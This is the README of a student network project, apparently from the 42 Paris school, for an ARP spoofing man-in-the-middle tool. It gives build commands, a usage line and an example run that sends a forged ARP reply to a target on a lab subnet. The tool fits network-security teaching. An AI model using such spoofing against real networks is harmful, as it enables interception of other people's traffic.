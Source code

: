 # ft_malcolm

Man in the middle ARP attack linux version.
Intercepts an ARP request and returns a forged address to the provider.

42 Paris school network project.

## Build

Compilation :
```
make
```

Clean objects files :
```
make clean
```

Clean entire project :
```
make fclean
```

## Usage

```
ft_malcolm [-lv] spoof_ip spoof_mac target_ip target_mac
  -l  : sending loop
  -v  : verbose mode
```

## Example

```
sudo ./ft_malcolm -v 192.168.56.105 77:77:77:77:77:77 192.168.56.103 08:00:27:66:12:7f
Input :
source mac address : 77:77:77:77:77:77
source IP address : 192.168.56.105
dest mac address : 08:00:27:66:12:7F
dest IP address : 192.168.56.103
Found available interface : eth0
An ARP request has been broadcast.
        source mac address : 08:00:27:66:12:7F
        source IP address : 192.168.56.103
        target mac address : 00:00:00:00:00:00
        target IP address : 192.168.56.102
Sending an ARP reply to the target address with spoofed source
        source mac address : 77:77:77:77:77:77
        source IP address : 192.168.56.105
        target mac address : 08:00:27:66:12:7F
        target IP address : 192.168.56.103
```
